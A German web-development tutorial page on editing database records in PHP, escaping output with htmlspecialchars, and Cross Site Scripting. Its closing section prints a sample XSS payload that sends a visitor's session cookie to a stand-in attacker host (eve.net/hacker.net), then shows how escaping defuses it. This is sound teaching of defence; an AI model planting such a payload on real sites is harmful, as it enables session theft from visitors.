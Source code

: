```yaml
---
title: Daten Bearbeiten
order: 40
---
```


Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur
Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Formular zum Bearbeiten einer Person](/images/person_edit.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement,
da die ID aus dem GET-Parameter gelesen wurde:

<php caption="laden des Datensatzes, der editiert werden soll">
$sth = $dbh->prepare( "SELECT * FROM users WHERE id=?" );
$sth->execute( array( $id ) );
$person = $sth->fetch();
</php>

### Das Bearbeitungs-Formular

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als
Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute
und bei Textareas als Inhalt des Tags:

<htmlcode>
<input name="firstname" value="Tobias">
<textarea name="description" rows="7">Webdesigner</textarea>
</htmlcode>

§

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder
Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein
Beispiel:

<sql>
portfolio_playground=# select firstname,description from users where id=438;
     firstname      |          description
--------------------+--------------------------------
 Tobias "the Coder" | Mein Lieblings-Tag ist <style>
(1 row)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
<input name="firstname" value="Tobias "the Coder"">
<textarea name="description" rows="7">Mein Lieblings-Tag ist <style></textarea>
</htmlcode>

Das Attribut `value` endet zu früh, und der `<style>` Tag lässt
den Rest der Webseite verschwinden.

§

Richtig ist die Darstellung gewisser Zeichen als HTML Entities:

<htmlcode>
<input name="firstname" value="Tobias &quot;the coder&quot;">
<textarea name="description" rows="7">Mein Lieblings-Tag ist &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion
`htmlspecialchars`[&rarr;](http://www.php.net/manual/en/function.htmlspecialchars.php) vorgenommen:

<php>
htmlspecialchars( $person->firstname );
</php>
§

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php caption="Darstellung eines Eingabe-Felds des Edit-Formulars mit PHP">
<input name="firstname" value="<?= htmlspecialchars( $person->firstname ); ?>">
<textarea name="description" rows="7"><?= htmlspecialchars( $person->description ); ?></textarea>
</php>

### Verarbeitung des POST-Request

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php caption="Update der Daten von PHP aus">
$sth = $dbh->prepare(
  "UPDATE users SET
    firstname=?,surname=?,email=?,
    profile_visible=?,description=?
   WHERE id=?");

$update_went_ok = $sth->execute(
  array(
    $_POST['firstname'],
    $_POST['surname'],
    $_POST['email'],
    $_POST['profile_visible'],
    $_POST['description'],
    $_POST['id']
  )
);

header("Location: person.php?id=" . $_POST['id']);
exit;
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank durchführen müssen. Wir haben bisher einfach die Daten direkt mit echo ausgegeben:

<php caption="Ausgabe von Daten aus der Datenbank ohne html-escaping">
<?php echo $person->firstname ?>
<?php echo $person->surname ?>
hat insgesamt  <?php echo $no ?> Werke in dieser Datenbank.
// problematisch!
</php>

§

Wenn hier in der Description „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = htmlspecialchars( $person->description  );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/html-escaped1.png)





Cross Site Scripting
----------

Wenn das Escaping auf einer Webseite fehlt kann das auch für eine Attacke
ausgenutzt werden, man nennt das "Cross Site Scripting".  Bei dieser Attacke
braucht mein drei Personen:

* Anna betreibt eine Webseite für Witze, jeder kann dort einen Witz hochladen
* Eve hat einen Witz mit zusätzlichem Code hinterlassen - sie ist die Angreiferin
* Bernhard kommt vorbei und liest Witze - er ist das Opfer

So könnte der "Witz" aussehen, den Eve eingibt:

<htmlcode>
JavaScript ist doof!
<img src="http://eve.net/bild.php" alt="harmlos" id="hack_tool" />
<script>
document.getElementById("hack_tool").src += "?c=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
JavaScript ist doof!
<img id="hack_tool" alt="harmloses bild"
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

Wenn nun Bernhard diesen Witz liest, dann wird sein Cookie an den Server von Eve gesendet.

Hätte Anna `htmlspecialchars` bei der Ausgabe verwendet, so wäre das Bild nie als
Bild angezeigt worden, sondern als

<htmlcode>
JavaScript ist doof!
&lt;img id=&quot;hack_tool&quot; alt=&quot;harmloses bild&quot;
src=&quot;http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115&quot;/&gt;
</htmlcode>

Escaping ist also ein wichtige Maßnahme gegen Cross Site Scripting.



* Kapitel über [Cross Site Scripting (XSS)](/security/a3-injection/#slide-7)

